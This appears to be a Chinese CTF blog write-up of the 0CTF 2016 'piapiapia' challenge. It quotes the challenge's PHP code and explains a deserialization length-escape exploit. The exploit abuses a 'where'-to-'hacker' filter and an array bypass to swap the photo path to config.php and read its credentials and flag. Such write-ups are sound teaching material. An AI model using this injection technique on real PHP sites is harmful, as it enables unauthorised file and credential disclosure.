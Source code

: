 ```yaml
---
title: buuoj刷题记录1
date: 2019-12-23 19:44:18
tags: 
 - ctf
 - buuctf
 - web
 - 0CTF
categories: 
 - 刷题记录
---
```


## [0CTF 2016]piapiapia

### 0x00 基础

一般文件的目录又xxx.php.bak/swp，或者查看元素、robots.txt里面有提示，或者`www.zip`等一系列文件中出现网站源码。也可以使用工具扫描

PHP序列化[参考文章](https://www.php.cn/php-notebook-239422.html)

<!--more-->

### 0x01 分析

题中`www.zip`中包含源码，下载~~后进行代码审计（不会）~~翻阅PHP手册，各种百度。在config.php中包含flag，要想办法获取到此文件
config.php

```
<?php
    $config['hostname'] = '127.0.0.1';
    $config['username'] = 'root';
    $config['password'] = '';
    $config['database'] = '';
    $flag = '';
?>
```
查看index.php

```php
if($user->login($username, $password)) {
			$_SESSION['username'] = $username;
			header('Location: profile.php');//登入后跳转到profile.php
			exit;	
		}
```

查看profile.php

```PHP
<?php   
    require_once('class.php');
if($_SESSION['username'] == null) { 
    die('Login First');
}   
$username = $_SESSION['username'];
$profile=$user->show_profile($username);
if($profile  == null) { 
    header('Location: update.php'); //$profile为空，跳转到update.php
}
else { 
    $profile = unserialize($profile); //一般看见unserialize()会考虑反序列化漏洞，
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));//file_get_contents()此函数可以获得文件内容
}
?>
```

update.php

```php
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

    $username = $_SESSION['username'];
    if(!preg_match('/^\d{11}$/', $_POST['phone']))
        die('Invalid phone');

    if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
        die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');

    $file = $_FILES['photo'];
    if($file['size'] < 5 or $file['size'] > 1000000)
        die('Photo size error');

    move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
    $profile['phone'] = $_POST['phone'];
    $profile['email'] = $_POST['email'];
    $profile['nickname'] = $_POST['nickname'];
    $profile['photo'] = 'upload/' . md5($file['name']);

    $user->update_profile($username, serialize($profile));//将$profile序列化，执行过滤函数
    echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
}
```
查看update_profile()函数
```PHP
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile); 
    $where = "username = '$username'"; 
    return parent::update($this->table, 'profile', $new_profile, $where);
}
```
查看filter()函数
```php
public function filter($string) {
    $escape = array('\'', '\\\\'); 
    $escape = '/' . implode('|', $escape) . '/'; 
    $string = preg_replace($escape, '_', $string); //将  “ ‘ ”、 “\\\\” 替换成 “_” 
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string); //将“ select|insert|update|delete|where” 替换成 "hacker"，返回替换后的字符串
}
```

在update_profile()，返回到profile.php.

```php
$profile = unserialize($profile); //反序列化$profile
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));

```

序列化后

```
$profile=a:4:{s:5:"phone";s:11:"11111111111";s:5:"email";s:8:"12@12.12";s:8:"nickname";s:4:"1234";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}
```
要让$photo得到的文件是config.php也就是

```
s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";
```
变成 
```
s:5:"photo";s:10:"config.php";
```
序列化后的长度是固定的，但是在经过过滤函数时候，nickname传入where会被替换成hacker,多出一个字符，这样就可以修改反序列化后的photo所对应的文件，使其为config.php。

因为nickname有长度限制使用数组可以绕过

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```
让nickname的值为`"};s:5:"photo";s:10:"config.php";}`长度为34,传入34个where
### 0x03 开始操作

![1](../pic/1.png) 传入参数

访问profile.php

![2](../pic/2.png)

将base64解码


```php
<?php
$config['hostname'] = '127.0.0.1';
$config['username'] = 'root';
$config['password'] = 'qwertyuiop';
$config['database'] = 'challenges';
$flag = 'flag{94b7c4b2-866d-4189-9b0a-abdf22990071}';
?>
```

